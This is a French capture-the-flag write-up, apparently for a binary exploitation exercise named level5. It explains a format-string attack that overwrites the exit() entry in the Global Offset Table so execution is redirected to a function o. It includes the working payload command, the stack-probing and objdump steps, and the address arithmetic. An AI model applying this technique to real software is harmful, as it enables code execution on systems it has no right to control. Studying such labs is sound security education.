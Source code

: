 **Exploit**: GOT Overwrite

**Commande**:  
```bash
python -c 'print "\x38\x98\x04\x08" + "%134513824c" + "%4$n"' > /tmp/exploit5  
```

**Explication**:  

Dans cet exploit, nous utilisons une vulnérabilité de chaîne de format pour écraser une entrée spécifique dans la Global Offset Table (GOT) du programme. L'objectif est de rediriger les appels à la fonction exit vers notre fonction cible o. Pour ce faire, nous construisons une chaîne de format qui, lorsqu'elle est traitée par printf, écrira l'adresse de la fonction o à l'emplacement de la GOT destiné à la fonction exit.
De maniere simple, la GOT est essentielle pour aider un programme à utiliser des fonctions qui ne sont pas incluses directement dans le programme lui-même, mais qui sont plutôt fournies par des bibliothèques partagées, comme la bibliothèque standard C (libc).

**Étapes**:  

- Pour comprendre où les données entrées apparaissent dans la pile lors de l'exécution de printf, exécuter une commande de test qui affiche les adresses sur la pile :
    python -c 'print "AAAA" + " %p" * 20' - | ./level5
    AAAA se trouve à la position 4 sur la pile 
- Exécuter objdump -R level5 pour afficher les entrées de relocalisation, incluant les adresses des fonctions de la libc utilisées par le programme, cela permet de trouver l'adresse d'exit()
- Utiliser objdump -t level5 | grep " o" pour trouver l'adresse de la fonction locale o dans le programme.
- Adresses identifiées:
    Fonction o : 080484a4
    Fonction exit : 08049838
- Pour pouvoir écraser l'adresse d'exit dans la GOT avec celle de notre fonction o, on doit convertir 080484a4 en décimal : 134513828
- Ensuite on soustrait les 4 octets de l'adresse d'exit à 134513828 ce qui nous donne 134513824
- Payload final : \x38\x98\x04\x08" + "%134513824c" + "%4$n"

**Ressources**:  

- [Exploit 101: Format Strings - Axcheron](https://axcheron.github.io/exploit-101-format-strings/)
